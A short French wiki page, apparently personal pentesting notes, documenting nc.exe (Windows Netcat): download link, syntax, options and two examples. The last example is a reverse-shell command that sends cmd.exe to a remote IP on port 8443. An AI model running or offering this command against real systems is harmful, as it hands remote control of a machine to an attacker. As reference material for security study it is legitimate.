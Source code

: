 ```yaml
---
title: nc
description: Nc est la version disponible sur Windows de Netcat, Netcat est un utilitaire permettant d'ouvrir des connexions réseau, cet outil peut être utilisé pour de nombreux usages
published: true
date: 2024-07-16T17:17:02.213Z
tags: outil, windows
editor: markdown
dateCreated: 2024-07-12T16:56:06.120Z
---
```


# Introduction

Nc est la version disponible sur Windows de Netcat, Netcat est un puissant outil permetttant l'écoute de ports ou encore l'ouverture de connexion réseau, cet outil est principalement utilisé pour se connecter à une une connexion inverse ou backdoor, mais il a d'autres nombreux usages.

> Nc est disponible au téléchargement ici: https://github.com/int0x33/nc.exe/
> {.is-info}

# Syntaxe

`nc.exe [ip/port/les deux] [options]`

# Options

| Option          | Description                                                         |
| --------------- | ------------------------------------------------------------------- |
| `-l`            | Mode écoute (listen), attendre une connexion entrante               |
| `-v`            | Mode verbose, affiche des informations supplémentaires              |
| `-p [port]`     | Spécifie un port d'écoute et aussi là où la connexion est transmise |
| `-e [commande]` | Spécifie la commande à éxectuer lorsqu'une transmission est établie |

# Exemples

Écoute sur sur le port 8080

`nc.exe -l -p 8080`

Envoi une connexion vers l'ip 10.10.14.3 sur le port 8443 qui éxecutera "cmd.exe" lors de l'établissement de la connexion

`nc.exe 10.10.14.3 8443 -e cmd.exe`
